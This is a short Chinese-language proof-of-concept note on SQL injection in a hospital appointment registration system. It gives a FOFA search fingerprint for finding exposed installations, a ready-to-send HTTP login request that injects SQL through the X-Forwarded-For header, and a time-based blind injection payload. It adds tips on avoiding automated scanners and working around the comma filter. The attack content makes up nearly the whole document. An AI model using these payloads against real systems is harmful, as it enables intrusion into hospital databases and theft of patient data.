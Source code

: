 ## 医院挂号系统SQL注入

## fofa
```
body="res/img/ht_box_back.gif" || body="/res/img/ht_box_top.gif" || body="/res/img/ht_box_bottom.gif" || body="dom_loaded.load(init);"
```

## poc
```
POST /m/login.php?op=login HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Content-Type: application/x-www-form-urlencoded
x-forwarded-for: "127.0.0.1 ' and exists(select * from xxxxx)-- 123"

username=admin&password=admin&vcode=4997&to=&vcode_hash=03b498138c14b2d0515b5438808d6604
```
此注入为insert注入，千万别用sqlmap或其他自动化工具进行扫描。上面的payload: ' and exists(select * from xxxxx)-- 123 可在响应里面直接报错数据库名，各大公益收录平台都认。如果想继续利用，可参考盲注payload:' and CASE WHEN ((select database()) like 'z%') THEN (sleep(5)) ELSE 2 END-- wUwJ  使用此进行手动盲注。 此系统会过滤逗号，逗号后面的sql不会执行，想研究的师傅需要自行研究一下。
